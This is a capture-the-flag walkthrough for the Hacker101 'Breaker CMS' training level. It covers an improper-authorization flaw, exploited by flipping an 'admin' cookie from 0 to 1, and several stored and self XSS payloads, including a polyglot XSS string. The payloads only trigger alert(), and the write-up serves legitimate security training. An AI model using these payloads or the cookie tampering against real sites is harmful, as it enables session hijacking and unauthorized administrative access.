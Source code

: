 # Level 3: Breaker CMS

```
		In this level, there are 6 vulnerabilities, falling into the following classes:
		Various XSS
		Improper Authorization
		Unrelated Bonuses

		Have fun!
		
   ```
    
    
 

## Improper Authorization:       
Look at script at bottom of page source:    

```// We should only display the edit link to authenticated admins.
			// http://i.imgur.com/WPaknth.jpg
			var page = window.location.hash.substring(1);
			if(page == '')
				page = 'index';
			var cookies = document.cookie.split(';');
			for(var i in cookies) {
				var cookie = cookies[i].replace(/ /g, '').split('=');
				if(cookie[0] == 'admin' && cookie[1] == '1')
					document.write('<a href="/levels/3/admin?page=' + page + '">Edit this page</a>');
			}
```    
      
      
  
 Go to cookies and change value for admin cookie from 0 to 1:       
 ![Cookie interface in Firefox Quantum](https://github.com/Isopach/Hacker101/blob/master/img/level3_improper_auth1.png)

----

## Stored XSS (Body)

Enter payload into page body edit box and POST     
`"<svg onload=alert(1)>`

![Stored XSS in Body](https://github.com/Isopach/Hacker101/blob/master/img/level3_stored_xss_body.png)

---

## Stored XSS (Body, DOM)

Enter payload into page body edit box and POST    
`<a href="https://levels-a.hacker101.com/levels/3/#" onmouseover=alert(1)`   

![Stored_XSS_in_Body_DOM](https://github.com/Isopach/Hacker101/blob/master/img/level3_stored_xss_body_dom.png)

---

## Self XSS (Head)

Enter payload into title:     

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```


![Self XSS in Head](https://github.com/Isopach/Hacker101/blob/master/img/level3_self_xss_head.png)
